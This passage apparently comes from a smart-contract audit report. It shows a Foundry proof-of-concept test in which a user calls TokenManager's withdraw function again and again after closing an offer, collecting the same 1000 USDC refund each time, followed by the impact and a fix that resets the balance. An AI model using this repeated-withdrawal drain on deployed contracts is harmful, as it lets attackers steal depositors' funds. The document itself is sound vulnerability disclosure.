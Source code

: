 ```solidity

        // user cancels his offer to get back his collateral of 1000 USDC
        vm.startPrank(user);
        address userOffer = GenerateAddress.generateOfferAddress(0);
        address userStock = GenerateAddress.generateStockAddress(0);
        preMarktes.closeOffer(userStock, userOffer);

        uint userUSDCBalanceBeforeWithdraw = mockUSDCToken.balanceOf(address(user));
        tokenManager.withdraw(address(mockUSDCToken), TokenBalanceType.MakerRefund);
        uint userUSDCBalanceAfterWithdraw = mockUSDCToken.balanceOf(address(user));

        // user gots his 1000 USDC collateral
        assert(userUSDCBalanceAfterWithdraw == userUSDCBalanceBeforeWithdraw + 1000 ether);

        // user can keep withdrawing again 
        tokenManager.withdraw(address(mockUSDCToken), TokenBalanceType.MakerRefund);
        uint userUSDCBalanceAfterAnotherWithdraw = mockUSDCToken.balanceOf(address(user));

        // user withdrawn another 1000 USDC
        assert(userUSDCBalanceAfterAnotherWithdraw == userUSDCBalanceBeforeWithdraw + 2000 ether);
}
```
```bash
forge test --mt test_usersCanDrainTokens

[PASS] test_usersCanDrainTokens() (gas: 1067512)
```

## Impact
Malicious users can exploit this vulnerability to drain the tokens deposited into the `TokenManager` contract by repeatedly calling the `withdraw` function.
## Tools Used
Manual review

## Recommendations
Consider updating `userTokenBalanceMap` after a successful withdraw. Below is a suggested modification to the `withdraw` function:
```diff
function withdraw(
        address _tokenAddress,
        TokenBalanceType _tokenBalanceType
    ) external whenNotPaused {
        uint256 claimAbleAmount = userTokenBalanceMap[_msgSender()][
            _tokenAddress
        ][_tokenBalanceType];

        if (claimAbleAmount == 0) {
            return;
        }

        //...

+        userTokenBalanceMap[_msgSender()][_tokenAddress][_tokenBalanceType] -= claimAbleAmount;
        emit Withdraw(
            _msgSender(),
            _tokenAddress,
            _tokenBalanceType,
            claimAbleAmount
        );
}
```
